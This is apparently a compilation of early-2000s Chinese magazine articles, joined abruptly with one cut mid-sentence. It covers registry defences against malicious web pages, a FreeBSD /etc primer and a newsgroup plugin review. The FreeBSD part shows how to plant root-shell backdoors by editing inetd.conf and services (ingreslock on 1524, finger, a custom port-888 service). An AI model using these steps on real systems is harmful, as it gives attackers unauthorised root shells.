





笔者写此文的本意是提供一个思路，鉴于菜鸟朋友不熟悉注册表，有些菜鸟的机器不够档次，安装能预防恶意网页代码的杀毒工具会过多消耗机器宝贵的资源，所以，用 IE 的分级审查功能不失为一个好的办法，关键在于广大网友互相通气，不断更新恶意网站黑名单。

声明：被列入恶意网站黑名单的所有者，跟提供者没有任何瓜葛，只是他们的所作所为惹怒了广大网友，被网友披露而曝光的。黑名单中的网站，笔者并没有一个一个验证，既然有很多网友揭发，也就被列入了黑名单，不排除后来又改邪归正的可能。笔者希望广大做网站的朋友，好自为之，不要再做这些无谓的事情，共同创造一个清洁健康的网络环境。

在此感谢广大热心网友的无私提供。让那些恶意网站如老鼠过街，人人喊打吧！

由于某种原因，笔者不便在此公开黑名单。不过，这类黑名单在网上就能找到，请读者发扬 DIY 精神，自己在网上搜索吧。

### 如何限制应用程序的使用？

只运行允许的 Windows 应用程序，可以防止在你的机器上运行你不想运行的程序。但使用该项功能时，一定要谨慎，一旦有个程序没有列出，就无法运行它，所以 Regedit.exe 应首先列进去，不然将来想改可就改不回来了。在进行注册表操作的时候一定要注意：备份它！下面我们来看具体的步骤吧：

- 1. 打开注册表编辑器；
- 2. 找到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，在其下建立 `RestrictRun`，类型为 `REG_DWORD`；
- 3. 设置其值为 1；

在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\RestrictRun` 下面建立 1、2、3 等项目，项目中包括应用程序名，只要应用程序名就可以了，不要路径，下面是一个例子：

建立值名 1 的项目，它的类型为 `REG_SZ`，里面填一个应用程序名 X，这时候 X 是被允许运行的，其它程序不能被运行！


### 警惕浏览网页

#### 被恶意修改之“四大邪招”

文／沧浪客

面对愈演愈烈的恶意网页的恶意修改，大家可能都屡见不鲜、见怪不怪了。但是本文为你介绍的恶意修改方式你可能没有见过甚至没有听过，但它的确被少数别有用心的人使用着！换句话说，在你浏览网页时存在着被其恶意修改的可能，如果被恶意修改后再查资料就来不及了，让我们未雨绸缪，先来了解这些不常见的恶意修改招数吧。

##### 一、在系统时间前面加上网页广告

那天去了某个个人网站后，下次开机时无意中发现，在系统托盘中的时间显示不对劲，怎么时间前面有网站的广告啊（图 1）？琢磨了半天，终于找到了问题出现的原因和解决办法。


原因：不用说肯定是在我浏览网页时注册表被该网页给修改了，它把系统显示时间的键值前面加了该网页的广告。知道了这一点就好办了。

大家知道，我们在个性化自己的电脑时，可以通过修改注册表让 Windows 按照我们的意愿来显示系统时间。比如，把自己的名字放在时钟旁，这样，该台电脑的每一位使用者就都知道你是系统的主人啦。该网站所做的就是在远程“帮”我们个性化一回系统时间——只不过是在我们不知情不情愿的情况下做的，但修改的手法都一样。

先来回忆一下我们是如何个性化系统时间的：在“控制面板”中双击“区域设置”图标，再选择“时间”选项卡，然后就可以对时间样式和分隔符等分别进行设置了。其原则是：h、m、s 分别代表时、分、秒；H 或 HH 代表 24 小时制显示时间，而 h 或 hh 代表 12 小时制显示时间；单字符 H、h、m、s 表示当时、分、秒为一位数时不显示前导 0，而相应的双字符则表示显示前导 0；t 表示用单字母代表 AM 或 PM，而 tt 则表示用双字母代表 AM 或 PM；如果要显示文本，则可在文本前后加上半角单引号“'”；分隔符可用“:”“.”“%”或“/”等；“AM”“PM”处也可分别设置，比如“CLK”“沧浪客”等，这样，12 点之前，在任务栏右边系统时钟旁将显示“CLK”，而 12 点之后则显示“沧浪客”。

比如，假设时间样式是“'沧浪客'tt H:mm:ss”，如果是在晚上 20 点 55 分，系统时钟将显示为“沧浪客 20:55”（图 2），而假如时间样式是“hh/mm/ss tt '沧浪客'”则显示为“23/13 沧浪客”。


当然，个性化系统时间的操作也可以通过注册表来完成：在 `HKEY_CURRENT_USER\Control Panel\International` 有字符串值 “sTimeFormat”，“sTimeFormat” 对应于“时间样式”。举个例子，“s1159”与“s2359”则分别对应于“上午”和“下午”，对它们的值进行修改就可以了。知道了这个道理你就应该明白该网页修改的正是 “sTimeFormat” 的键值。

解决方法：点击“开始”菜单下的“运行”，在“运行”中输入 regedit，点“确定”按钮，打开注册表编辑器，然后依次展开注册表 `HKEY_CURRENT_USER\Control Panel\International` 分支，将字符串 “sTimeFormat” 的键值改为 “hh:mm”，按 F5 键刷新即可。

上面所用的是手动修改注册表法，你也可以自建文件导入注册表来解决这个问题。这样做的好处是可以事先准备一个这样的文件，当碰到类似的事情时，可以直接点击该文件将其导入注册表，有备无患嘛。具体方法是：在记事本中输入以下内容，然后将扩展名改为 `.reg`，主文件名可以任意，然后双击此文件，即可成功将其导入注册表。reg 文件内容如下：

```text
REGEDIT4

[HKEY_CURRENT_USER\Control Panel\International]
"sTimeFormat"="hh:mm"
```

请注意：如果你是 Win2000 或 WinXP 用户，请将“REGEDIT4”写为“Windows Registry Editor Version 5.00”。另外，要注意在“REGEDIT4”后面一定要空一行，并且“REGEDIT4”中的字符“4”和字符“T”之间一定不能有空格，否则不会成功，切记切记！

##### 二、在 IE 中鼠标右键弹出菜单无法使用

这是在浏览另外一个个人网站时碰到的情况，在浏览该网站后我下线了，但第二天浏览新浪网页时发现在新浪的页面中点击鼠标右键，完全没有反应，该弹出的菜单没有出现。思来想去，只有昨晚上去的那个网站比较可疑，于是研究了一番该个人网站的源代码，果然没有猜错，就是它干的！

原因：由于知道这种情况的出现是该个人网站修改了注册表所致，所以直接来到注册表中。不过，注册表这么大，到底哪个才是我们需要的呢？查找和 IE 相关的键值就知道了。一番查找后，我发现在注册表 `HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions` 分支下有 DWORD 值 “NoBrowserContextMenu”，其键值为“1”，就是它使得在 IE 中点击鼠标右键没有任何反应。知道了原因就好办了。

解决办法：点击“开始”菜单下的“运行”，在“运行”中输入 regedit，点“确定”按钮，打开注册表编辑器，然后依次展开注册表 `HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions` 分支，找到 DWORD 值 “NoBrowserContextMenu”，双击它，在弹出对话框中将其键值改为“0”（图 3），按 F5 键刷新即可。用 IE 打开某个网站试试，又有右键菜单可用了！

同样，为了以防万一，可以事先建立一个 reg 文件，将正确的注册表内容写入，在出现问题时将其导入注册表。方法是：在记事本中输入以下内容，然后将扩展名改为 `.reg`，主文件名可以任意，然后双击此文件，即可成功将其导入注册表。reg 文件内容如下：

```text
REGEDIT4

[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions]
"NoBrowserContextMenu"=dword:00000000
```

在编写 reg 文件时注意事项同上文中所提到的一样，不再赘述。

##### 三、OE 标题栏被篡改

这是另外一种不常见的、很隐蔽的修改方式。大家对恶意网页修改 IE 标题栏已经见过许多了，但对修改 OE 的标题栏还不常见，一时之间还真想不到是修改了哪里，虽然知道是注册表被修改，但具体是哪里你知道吗？

原因：Outlook Express 的标题栏被修改，是因为注册表 `HKEY_CURRENT_USER\Software\Microsoft\Outlook Express` 分支下的串值“WindowTitle”和“Store Root”被修改为恶意网站的广告。

解决办法：点击“开始”菜单下的“运行”，在“运行”中输入 regedit，点“确定”按钮，打开注册表编辑器，然后依次展开注册表 `HKEY_CURRENT_USER\Software\Microsoft\Outlook Express` 分支，在右边窗口中找到串值“WindowTitle”和“Store Root”，将其键值均设为空，然后按 F5 键刷新即可。

下面我们再建立一个用来恢复注册表的 reg 文件，以备不时之需。方法是：在记事本中输入以下内容，然后将扩展名改为 `.reg`，主文件名可以任意，然后双击此文件，即可成功将其导入注册表。


reg 文件内容如下：

```text
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Outlook Express]
"WindowTitle"=""
"Store Root"=""
```

在编写 reg 文件时注意事项同上文所提到的，这里不再赘述。

##### 四、更改“我的电脑”下的系统文件夹名称

这是几种破坏方式中最恶毒的一种，打开“我的电脑”，你会发现再也不是你熟悉的那些文件夹名称了，打印机、控制面板、Web 文件夹、计划任务、拨号网络、回收站等统统被改名了，非常的可恶！

原因：还是通过修改浏览者的注册表来达到恶意修改的目的。不过，这次修改的项目较多，而且手法非常的少见。具体说来它们修改的是注册表 `HKEY_CLASSES_ROOT\CLSID` 下的子键，如修改回收站的名字则修改与回收站对应的子键：`{645FF040-5081-101B-9F08-00AA002F954E}`（这是系统默认的 ID，这个 ID 的格式必须为“{XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX}”，它代表回收站）的键值，同时修改字符串值“InfoTip”，改变回收站的提示信息为垃圾网站的广告语（图 4）。


图 4

解决办法：由于要修改的键值较多，手动修改注册表非常麻烦并且易出错，建议大家能按本文所说事先备份注册表。在记事本中输入以下内容，然后将扩展名改为 `.reg`；主文件名可以任意，然后双击此文件，即可成功将其导入注册表。reg 文件内容如下：

```text
REGEDIT4

[HKEY_CLASSES_ROOT\CLSID\{2227A280-3AEA-1069-A2DE-08002B30309D}]
@="打印机"
"InfoTip"="使用打印机文件夹添加并安装本地或网络打印机，或更改现有打印机的设置。"

[HKEY_CLASSES_ROOT\CLSID\{21EC2020-3AEA-1069-A2DD-08002B30309D}]
@="控制面板"
"InfoTip"="使用“控制面板”个性化您的计算机。例如，您可以指定桌面的显示（“显示”图标）、事件的声音（“声音”图标）、音频音量的大小（“多媒体”图标）和其它内容。"

[HKEY_CLASSES_ROOT\CLSID\{992CFFA0-F557-101A-88EC-00DD010CCC48}]
@="拨号网络"
"InfoTip"="即使计算机不在网络上，仍可以使用拨号网络来访问另一计算机上的共享信息。要使用共享资源，接入的计算机必须设为网络服务器。"

[HKEY_CLASSES_ROOT\CLSID\{D6277990-4C6A-11CF-8D87-00AA0060F5BF}]
@="计划任务"
"InfoTip"="‘任务计划程序’作为一个工具，可以让您计划固定的任务（例如，“磁盘碎片整理程序”），在您最方便的时候运行。每次您启动 Windows 时，“任务计划程序”启动并且在后台运行。"

[HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}]
@="回收站"
"InfoTip"="包含可以恢复或永久删除的已删除项目。"

[HKEY_CLASSES_ROOT\CLSID\{BDEADF00-C265-11d0-BCED-00A0C90AB50F}]
@="Web 文件夹"
"InfoTip"="您可以创建快捷方式，使它们指向您公司 Intranet 或万维网上的 Web 文件夹。要将文档发布到 Web 文件夹中或要管理文件夹中的文件，请单击该文件夹的快捷方式。"
```

如果你是 Win2000 或 WinXP 用户，请将“REGEDIT4”写为“Windows Registry Editor Version 5.00”，其他内容可以不变。

对恶意修改的防范办法如下：

- 1. 不去自己不熟悉的网站，不要随便点击论坛中别人贴出的网址；
- 2. 经常备份注册表，如果出现问题时可以想办法恢复；
- 3. 对于 Windows 98 用户，请打开 `C:\WINDOWS\JAVA\Packages\CVLV1N\BB.ZIP`，把其中的“ActiveXComponent.class”删掉；对于 Windows Me 用户，请打开 `C:\WINDOWS\JAVA\Packages\5NZVFPF1.ZIP`，把其中的“ActiveXComponent.class”删掉。请放心，删除这个组件不会影响到你正常浏览网页的。

- 4. 对于所有用户，都建议安装 Norton AntiVirus 2002 杀毒软件，此软件已经把这类恶意修改注册表的代码定义为 Trojan.Offensive，并增加了 Script Blocking 功能，它会对此类恶作剧进行监控并予以拦截。

- 5. 既然这类网页是通过修改注册表来破坏我们的系统，那么我们可以事先把注册表加锁：禁止修改注册表，这样就可以达到预防的目的。不过，自己要使用注册表编辑器该怎么办呢？因此我们还要在此前事先准备一把“钥匙”，以便打开这把“锁”。

加锁方法如下：

- 1. 运行注册表编辑器 `regedit.exe`；
- 2. 展开注册表到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 下，新建一个键值名为 `DisableRegistryTools` 的 DWORD 值，并将其值改为“1”，即可禁止使用注册表编辑。

解锁方法如下：

用记事本编辑一个任意名字的 `.reg` 文件，比如 `unlock.reg`，内容如下：

```reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

存盘，你就有了一把解锁的钥匙了！如果要使用注册表编辑器，则双击 `unlock.reg` 即可。请注意：如果你是 Win2000 或 WinXP 用户，请将“REGEDIT4”写为 `Windows Registry Editor Version 5.00`。

- 6. 对于 Win2000/XP 用户，还可以通过在 Win2000/XP 下把服务里面的远程注册表操作服务“Remote Registry Service”禁用，来对付该类网页。具体方法是：点击“控制面板”→“管理工具”→“服务”，右键单击 Remote Registry Service（允许远程注册表操作），在弹出选单中选择“属性”，打开属性对话框，在“General”内将“Startup type”设为“Disabled”，将这一项禁用即可（图5）。

图5

- 7. 在 IE 窗口中点击“工具→Internet 选项”，在弹出的对话框中选择“安全”标签，再点击“自定义级别”按钮，就会弹出“安全设置”对话框，把其中所有 ActiveX 插件和控件选择“禁用”即可。

- 8. 卸载或升级 WSH。WSH 是 Windows Scripting Host 的缩写，Windows 9x 系统把它设为默认的安装项。据微软中文官方网站介绍：WSH 支持的 ActiveX 脚本体系结构“可让用户能使用强大的诸如 Visual Basic Script 和 JavaScript 之类的脚本语言，同时也支持 MS-DOS 命令脚本，并且‘能使脚本直接在 Windows 桌面或命令控制台上执行’。由此可知，利用 WSH 结合脚本程序可以写出极具杀伤力的病毒来。因此，建议经常上网的普通计算机用户可以考虑卸载 WSH。卸载方法：进入“控制面板”，选择“添加／删除程序”，切换到“Windows 安装程序”，选择“附件”，再选择“详细资料”中的 Windows Scripting Host，最后点击“确定”即可卸载。

此外，你还有一个更好的选择：升级到 WSH 5.6。IE 浏览器可以被恶意脚本修改，原因就是 IE 5.5 以及以前版本中的 WSH 允许攻击者利用 JavaScript 中的 GetObject 函数以及 htmlfile ActiveX 对象读取浏览者的注册表。微软最新的 Microsoft Windows Script 5.6 已经修正了这个问题。

WSH 5.6 For Win9x/NT 官方下载：`http://www.microsoft.com/devonly/prodinfo/scripting/downloads/v56b/scr56en.exe`

WSH 5.6 For Win2000 官方下载：`http://www.microsoft.com/devonly/prodinfo/scripting/downloads/v56b/scripten.exe`

### FreeBSD 下 etc 目录文件简介及应用

对于大多数的网民来说，所使用的最普遍的操作系统就是 Windows 系列，而对于 *nix 系统来说，一般人还并不是很熟悉，只有长期在 *nix 操作系统下开发的人才会对它如同我们对 Windows 一样熟悉。现在有越来越多的人对 *nix 操作系统感兴趣，却苦于对它不了解。文字界面下类似于 DOS 的操作方式和对它的文件系统摸不着头脑。*nix 操作系统中又分很多种不同的操作系统，如 Linux、FreeBSD、Solaris、NetBSD 等等，本文就给初学者介绍了 FreeBSD 文件系统中 etc 目录下一些重要文件的使用，相信菜鸟们看过以后，对它的作用和应用方法会有进一步的了解。

在 *nix 下，大家都知道 etc 是一个非常重要的目录，在里面有很多系统相关的配置文件。下面我简单介绍一些 FreeBSD 下的配置文件，写给初学者看，希望新手可以有所进步。

#### 1. /etc/passwd 和 /etc/master.passwd 文件

这两个是 FreeBSD 系统下的密码文件和影子文件，master.passwd 相当于 Solaris 系统中的 SHADOW，是存放系统用户密码的文件。

该文件内容如下：

我们可以通过直接修改 passwd 和 master.passwd 文件来直接加用户，这点我想不用再多说，有很多的文章都有介绍。我想说的是在 FreeBSD 下直接改完这两个文件是不能直接起作用的，需要在修改完密码文件后用 `pwd_mkdb /etc/master.passwd` 命令来激活。如果把这两个文件删掉的话，该主机将无法进行正常的登录。如果你想让一个用户只有 FTP 服务而不能执行 Shell 的话，可以通过改写密码文件来实现。例如把他的 Shell 名字改掉，把 `/bin/csh` 改成 nonexistent，或者改成 `/bin/xxx` 就可以了。

#### 2. /etc/inetd.conf 文件

这个文件是 inetd 守护进程的配置文件，在 FreeBSD 下是至关重要的。inetd 守护进程监听多个 TCP/IP 端口，接收到来的连接请求。inetd 启动的服务进程 fingerd、ftpd、rexecd、rlogind 的相关信息都记录在 inetd.conf 里面。

该文件内容如下：

```text
# $FreeBSD: src/etc/inetd.conf,v 1.44.2.3 2000/10/04 07:58:51 kris Exp $
#
# Internet server configuration database
#
#       @(#)inetd.conf    5.4 (Berkeley) 6/30/90
ftp     stream  tcp     nowait  root    /usr/libexec/ftpd      ftpd -l

telnet  stream  tcp     nowait  root    /usr/libexec/telnetd   telnetd
#shell  stream  tcp     nowait  root    /usr/libexec/rshd      rshd
#login  stream  tcp     nowait  root    /usr/libexec/rlogind   rlogind
#finger stream  tcp     nowait/3/10 nobody /usr/libexec/fingerd fingerd -s
#exec   stream  tcp     nowait  root    /usr/libexec/rexecd    rexecd
#uucpd  stream  tcp     nowait  root    /usr/libexec/uucpd     uucpd
#nntp   stream  tcp     nowait  usenet  /usr/libexec/nntpd     nntpd
```

黑客们做的一些 UNIX 下的后门都是通过改动该文件的配置来实现的，比如 1524 后门之类。1524 后门这样做：

```text
echo ingreslock    stream    tcp    nowait    root
/bin/sh    sh -i >> /etc/inetd.conf
```

然后再重启一下 inetd 进程就可以了：`killall -HUP inetd`。Ingreslock 是一种网络服务的名称，它的默认端口就是 1524，我们只要让它当客户端连接时运行的程序为 `/bin/sh`，这样在客户端 `telnet localhost 1524` 的时候就会自动得到一个 Shell。这里面当然可以把其他的服务也改成后门了。例如改 finger 服务为后门。finger 的默认端口是 79。在 inetd.conf 找到 `#finger stream tcp nowait/3/10 nobody /usr/libexec/fingerd fingerd -s`

```text
finger stream tcp nowait root /bin/sh sh -i
```

这样，我们就把 Finger 服务成功地做成了后门。当然，像这些服务的默认端口都可以改掉的。下文我会给大家提到。我们还可以加入一个自己起名的服务到 inetd.conf 中作为后门程序。例如：

```text
iloveu stream tcp nowait root /bin/sh sh -i
```

iloveu 这个服务本来是没有的，它没有默认的端口，这样加在里面还是不行的。先说到这里，后文再提。

#### 3. /etc/services 文件

Services 和 inetd.conf 这两个文件是紧密相连的。Services 中记录了各项服务的端口与协议。文件内容如下：

| 服务名 | 端口号/协议 | 注释 |
|---|---|---|
| msp | 18/tcp | #Message Send Protocol |
| msp | 18/udp | #Message Send Protocol |
| chargen | 19/tcp | ttytst source #Character Generator |
| chargen | 19/udp | ttytst source #Character Generator |
| ftp-data | 20/tcp | #File Transfer [Default Data] |
| ftp-data | 20/udp | #File Transfer [Default Data] |
| ftp | 21/tcp | #File Transfer [Control] |
| ftp | 21/udp | #File Transfer [Control] |
| ssh | 22/tcp | #Secure Shell Login |
| ssh | 22/udp | #Secure Shell Login |
| telnet | 23/tcp |  |
| telnet | 23/udp |  |
| # | 24/tcp | any private mail system |
| smtp | 25/tcp mail | #Simple Mail Transfer |
| smtp | 25/udp mail | #Simple Mail Transfer |
| nsw-fe | 27/tcp | #NSW User System FE |

在这个文件里面，我们可以改掉各项服务的端口号，还可以加入一个没有的服务，例如：

```text
iloveu        888/tcp
```

这样上文咱们说到的那个 iloveu 后门就做好了。只要对方 telnet IP 888 就可以得到一个 Shell。

#### 4. /etc/hosts 文件

该文件是提供简单的域名到 IP 地址的转换。在 FreeBSD 下是不会像 Windows 那样自动配置 DNS 的。也就是说在 FreeBSD 下不可以直接访问域名，可以访问 IP。但是怎么让它访问域名呢？那只有把一个个的域名连同它的 IP 加入到 hosts 这个文件当中，还有就是修改 resolv.conf 文件，这点下文可以提到。

文件内容如下：

| IP 地址 | 域名 |
|---|---|
| ::1 | localhost.test.com localhost |
| 192.168.0.2 | localhost |
| 202.108.35.210 | www.sina.com.cn |
| 61.135.131.13 | www.sohu.com |
| 216.239.51.100 | www.google.com |
| 210.77.144.83 | www.nsfocus.com |
| 202.98.11.141 | www.xfocus.net |
| 211.100.31.149 | www.263.com |

#### 5. /etc/rc.local 文件

该文件为系统启动文件，相当于 DOS 下的

### 插件最无敌

### Fidolook Express 2001（上）

文／刘志勇

新闻组是 Internet 的一个重要的资源。很多资格比较老的朋友都用过新闻组，大部分的“高手”都是从新闻组汲取养料从菜鸟一步一步成长起来的。

大部分网友使用的新闻组阅读软件，用得比较多的是下列：Outlook Express，Forte Agent，BKNews，hamster，Xnews，NewsPRO 等。其中以 Outlook Express 和 Agent 的拥护者比较多。

本文将讲述 Fidolook Express 2001。它是俄国人开发的 Outlook Express 的插件，主要是用来扩展 Outlook Express 的功能。它是免费的软件，可以到

`http://www.fidolook.com/download.php?get=fl_msi`

去下载。

由于 Fidolook Express 2001 是俄国人开发的，帮助文件是俄语，笔者对俄语一窍不通，幸好软件界面是英文的，笔者经过摸索，以及和其他朋友交流切磋，才写出本文。相信 Fidolook Express 2001 还有很多功能没有发现。（谁叫那个俄国佬不写英文的帮助文件？）本文仅仅是笔者已经摸索出来的功能，至于其他一些功能没有提到，也是因为笔者看不懂俄文帮助，又看不出哪些具体是什么功能，而俄国人写的英语不标准，笔者也猜不出来是什么意思。

Outlook Express 是最简明的软件，易学易用。不仅是一个强大的 Email 客户端软件，同时也是一个比较实用的新闻组客户端软件。在使用了 Forte Agent、Gravity 等专业软件之后，仍然觉得，作为新闻组客户端软件，还是 Outlook Express 最好！（对大量灌水的新闻组高手则相反，这里仅指普通应用者）。笔者认为 Outlook Express 最好的地方就是线索清楚，可以按对话分组新闻组帖子（一般称作讨论串）。笔者习惯按时间排序，Forte Agent 等虽然也能分清时间，但讨论串也没了。Outlook Express 则能清楚地看到自己及他人的回帖。

对中文的支持就更不用说了，大概是迄今为止支持中文最完美的新闻组客户端软件吧！对附件的自动解码也非常好，能让你一眼看到是附件的类型。另外一点，就是作为一般的新闻组客户端软件功能基本上都有了：规则、视图、签名等等，基本上一个同步就全部完成任务。

上面说的是 Outlook Express 作为新闻组客户端软件相对于其他软件的一些优点。

为了能够讲述 Fidolook Express 的长处，不妨先揭揭 Outlook Express 的短处。

- 1. Outlook Express 作为新闻组阅读软件，它实在不能与专业级的如 Forte Agent 等媲美。首先，它不能随意删除已经下载的帖子。它要么永久保留，要么就一起全部清除所有的帖子。它在帖子的管理方面上实在太弱了。而 Forte Agent 等新闻组阅读软件可以随心所欲地保留、删除帖子。以前笔者是把不喜欢的帖子处于忽略的状态，然后切换到“忽略已读或忽略的邮件”的视图方式，来个眼不见为净。但这实际是掩耳盗铃的做法，帖子其实还赖在你的硬盘上呢，占据着宝贵的空间。
- 2. Outlook Express 不能多线程打开。这也是一个诟病。虽然一般情况下只打开一个 Outlook Express 线程，但感觉总是不爽。
- 3. Outlook Express 不能设置模板。现在几乎所有的邮件软件和新闻组软件都能够随心所欲设置模板，可以体现自己与众不同的个性化模板。而 Outlook Express 回帖一律是这样的：`"C.S" <cs@51.com> 写入消息新闻:3c968cf5@wfbak.newsfan.net...`
- 4. Outlook Express 查看邮件头特别不方便。先选中要看的邮件，然后点鼠标右键，点好几下鼠标才能看到邮件头，好烦！
- 5. Outlook Express 不能批量导出邮件。

如此种种，不一而足。

Fidolook Express 不仅改善了 Outlook Express原有的不足，还大大扩展了 Outlook Express 原先所不具备的功能。

下面就 Fidolook Express 2001 娓娓道来……

由于该软件的功能过于强大，笔者就不得不花一定的篇幅来介绍它：

安装后，启动 Fidolook Express 2001 的图标，就会看到 Outlook Express 的启动画面。在 Outlook Express 原有的工具栏下面就多了一个原先没有的工具栏，这就是 Fidolook Express 2001 的工具栏。见图1：

笔者就按 Fidolook Express 2001 默认工具栏从左到右依次介绍。

- 1．“Open”按钮：这个功能就不用笔者多说了吧，就是用来打开邮件的。
- 2．“Forward”按钮：它极大扩展了 Outlook Express 的转发功能。Fidolook 可以做到四种转发形式：从新闻组转发到新闻组；从新闻组转发到邮件；从邮件转发到邮件；从邮件转发到新闻组。

当选择邮件的时候，此菜单的“Forward Newsgroup to Newsgroup”和“Forward Newsgroup to Mail”就处于不可激活的状态。反之，当选择新闻组的帖子的时候，此菜单下的“Forward Mail to Newsgroup”和“Forward Mail to Mail”就处于不可激活的状态。

Outlook Express 的转发功能，如果新闻组帖子含有附件，转发到其他新闻组的话，附件不会跟着转发，要手动添加附件，极其麻烦。而 Fidolook Express 可以自动添上附件。

（未完待续）

（上接36页）

汉化补丁下载地址：http://www.pediy.com/TOOLS/Decompilers/DeDe/K-dede.zip

